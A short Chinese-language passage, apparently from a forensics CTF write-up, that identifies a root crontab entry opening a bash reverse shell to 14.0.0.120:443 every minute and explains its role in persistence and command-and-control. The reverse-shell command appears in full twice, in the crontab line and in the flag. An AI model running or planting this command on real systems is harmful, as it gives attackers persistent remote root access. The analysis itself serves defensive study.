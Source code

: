 **关键信息；**

**crontab 任务**： `* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`​

* 这个任务是攻击者设置的，用于每分钟尝试建立一个反向Shell连接到攻击者的机器。

**所以为什么这是关键信息？**

* **持久性控制**：

  * 攻击者通过crontab任务保证每分钟尝试重新建立连接，即使当前连接断开或者系统重启，攻击者仍然能重新控制系统。
  * 这表明攻击者不仅仅是一次性访问系统，而是希望持续控制目标系统。
* **通信与回连**：

  * 反向Shell连接到外部IP（14.0.0.120），表示攻击者在等待来自目标系统的连接，这种通信是恶意行为的重要标志。
  * 通过监控网络流量，可以发现这种重复的反向连接尝试，进一步确认系统被攻陷。
* **高权限操作**：

  * 任务是由`root`​用户设置的，这意味着攻击者已经获得了系统的最高权限，可以执行任何命令。
  * 这种高权限任务表明系统已经被严重入侵，必须立即采取行动。

最后；

	flag{/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'}
